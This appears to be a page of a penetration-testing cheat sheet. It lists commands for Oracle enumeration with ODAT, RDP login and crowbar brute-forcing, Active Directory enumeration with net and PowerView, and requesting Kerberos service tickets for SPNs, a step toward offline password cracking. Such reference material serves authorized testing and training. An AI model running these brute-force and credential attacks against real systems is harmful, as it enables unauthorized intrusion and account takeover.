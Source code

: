 ```bash
git clone https://github.com/quentinhardy/odat.git
cd oda
pip3 install python-libnmap
pip3 install cx_oracle
python3 odat.py all -s <IP> -p <PORT>
```

## TCP Port 3389 (RDP)

```bash
xfreerdp /u:<USER> /p:<PASS> /v:<IP> /cert:ignore

rdesktop -u <USER> -p <PASS> <IP>:3389
```

### Bruteforce with `crowbar`

> supports OpenVPN, Remote Desktop Protocol, SSH Private Keys and VNC Keys
 

```bash
crowbar -b rdp -s $IP/$NETMASK -u $USERNAME -C $WORDLIST -n 1
```

## Active directory enumeration

- Enumerate all local accounts: `net user`
- Enumerate all users in the entire domain: `net user /domain`
- Enumerate all groups in the entire domain: `net group /domain`
- Looking for **Nested Groups** (groups type cab be member of other groups): TODO...

➡️ [Get-SPN.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/Get-SPN.ps1)

Requesting a service ticket for a given Service Principal Name (SPN):

```powershell
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList '<SPN>'
```

### 👀 `PowerView.ps1`

- Enumerating operating system:
    
    ```powershell
    Get-NetComputer -FullData | select operatingsystem*
    ```
    
- Enumerating domain users:
    
    ```powershell
    Get-NetUser | select cn
    ```
    
